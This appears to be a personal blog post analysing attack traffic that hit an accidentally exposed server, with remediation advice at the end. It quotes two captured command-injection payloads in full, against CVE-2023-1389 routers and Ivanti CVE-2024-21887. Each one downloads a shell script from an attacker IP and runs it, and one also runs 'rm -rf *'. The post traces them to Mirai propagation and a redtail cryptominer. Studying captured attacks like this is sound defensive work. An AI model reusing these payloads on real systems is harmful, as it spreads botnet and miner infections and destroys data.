Hello World! So, I've been tinkering with network stuff lately, trying to set up some infrastructure.Turns out that in the process, I made a rookie mistake and left a few ports open to the internet! A few months down the line I took a look and to no one’s surprise my server had been bombarded with all sorts of requests. It was receiving a steady stream of traffic, but not the good kind…think of it more as a steady dose of “internet radiation”. Without realising it I had accidentally turned my server into a honeypot.

So, naturally curious I started digging into my server logs and what I found was equal parts fascinating and alarming. Let's just say there's a lot of shady stuff going on out there, from random bots on the site, directory traversal with known path (/.git/config wink wink), to common network appliance enumeration. You name it, they were trying it.

But here's where things get interesting: Among all the noise, there are some requests that stand out. Like, seriously weird stuff. It's like people are trying to target anything and everything they can get their hands on.

**Sample 0:**



And sometimes they are nice enough to actually tell you who they are 🙂

**Sample 1:**



From the looks of this particular request it’s already got some bash looking code in the payload. Let’s convert the URL encoding to make it more readable.

> _/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(rm -rf \*; cd /tmp; wget http://94.156.79.129/tenda.sh; chmod 777 tenda.sh; ./tenda.sh)_

This resembles a command injection attack on OpenWRT routers running LuCI web interface (/cgi-bin/luci/). After a bit of googling, this actually targets routers vulnerable to CVE-2023-1389 as an initial step to breach the perimeter. Then proceed to download another bash script payload (tenda.sh), set it up and execute the script.

Unfortunately, at the time of investigation, the hosted script is no longer available. But fear not, Google to the rescue! It looks like someone has already uploaded the script to any.run. This gives us an opportunity to dig deeper into what the attack is capable of.

###### _Content of tenda.sh script._

###### redtail binary packed with the late version of UPX 3.94. (3.94 released in 12th May 2017)

Upon initial inspection, it looks like a script that contacts the C2 server and downloads then executes the payloads in various CPU architectures. Readers with a keen eye may have already spotted that this behaviour is highly similar to the propagation of the infamous Mirai botnet.

Hexdump functionality on any.run allows us to inspect the payload binary file, which gives us some hints to unpack the executable with UPX. Let’s grab the binary file and dissect it further locally (do this at your own risk, it is highly recommended to deal with malware in an isolated environment).

###### _UPX unpacking the binary like a charm._

###### _Successfully using UPX to unpack the binary. Section headers are also restored._

###### _Strings from the mips binary with references to further propagation of Mirai Botnet._

###### _Strings from the mips binary with references to further propagation of Mirai Botnet._

Luckily there are no anti-unpacking measures in place for the binary, and UPX has worked flawlessly to recover the original binary executable with all the section headers intact. Armed with the new information from the unpacked binary, it seems to be leveraging SSDP multicast packets to further identify devices on the network using DIAL protocol. The XML soap request seems to contain payload for further exploitation on vulnerable Huawei routers (CVE-2017-17215), which confirms the malware is attributed to Mirai botnet propagation.

**Sample 2:** 

### 

> _/api/v1/totp/user-backup-code/../../license/keys-status/;curl http://94.156.79.60/iv.sh | sh || wget -O- http://94.156.79.60/iv.sh | sh;_

Next up is this specimen. This request again resembles a command injection attack. However, this time it’s targeting the Ivanti Connect Secure web component vulnerable to CVE-2024-21887(/api/v1/totp/user-backup-code/), gaining a foothold and then downloading and executing the iv.sh script by piping it to sh(shell command interpreter).

Again, the hosted script was no longer available at the time of investigation. Fortunately, thanks to the amazing cyber community, someone has also uploaded the sample onto any.run for further analysis.

###### _Content of iv.sh script_

###### _redtail binary packed with the late version of UPX 4.23. Suggesting that the payload was generated fairly recently (4.2.3 released on 27th March 2024)_

###### 

###### _Strings from the redtail binary with loads of reference to crypto mining operations_

Running this script will again contact the C2 server, downloading and executing a version of binary payload based on the CPU architecture of the compromised device. The name of the binary “redtail” might have given away the type of malware: _Cryptominers!_

Inspecting the strings after unpacking the binary also confirms this theory.

So, what have we learned? There is a lot of noise around the dangers of ports open to the internet when we are talking about cyber security. For some who have yet to open a port(s) and watch what happens this might seem a bit dramatic. However, your exposed services are constantly being targeted by all kinds of attacks! Remediating this issue is simple: place the web service behind some form of proxy or firewall, whether that be at the host, application or cloud level. I like Cloudflare proxy, and I ensure to whitelist the exposed ports to Cloudflare listed proxies IP addresses. Fun fact: you only need to do one of the 15 ranges listed on their website and it will work.

Until next time! Stay safe out there ;)

## 

 

But also, here’s a list of more trivial ones that were picked up:

\[table id=5 /\]

## References:

[https://openwrt.org/docs/guide-user/luci/start](https://openwrt.org/docs/guide-user/luci/start)

[https://www.greynoise.io/blog/active-exploitation-attempts-cve-2023-1389-against-tp-link-archer-gigabit-internet-routers](https://www.greynoise.io/blog/active-exploitation-attempts-cve-2023-1389-against-tp-link-archer-gigabit-internet-routers)

[https://www.zerodayinitiative.com/blog/2023/4/21/tp-link-wan-side-vulnerability-cve-2023-1389-added-to-the-mirai-botnet-arsenal](https://www.zerodayinitiative.com/blog/2023/4/21/tp-link-wan-side-vulnerability-cve-2023-1389-added-to-the-mirai-botnet-arsenal)

[https://answers.microsoft.com/en-us/windows/forum/all/ssdp-messages/ba8f36d0-6b4a-4735-84f9-db25e273c71f](https://answers.microsoft.com/en-us/windows/forum/all/ssdp-messages/ba8f36d0-6b4a-4735-84f9-db25e273c71f)

[https://www.exploit-db.com/exploits/43414](https://www.exploit-db.com/exploits/43414)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-21887](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-21887)

[https://developers.cloudflare.com/fundamentals/concepts/cloudflare-ip-addresses/](https://developers.cloudflare.com/fundamentals/concepts/cloudflare-ip-addresses/)
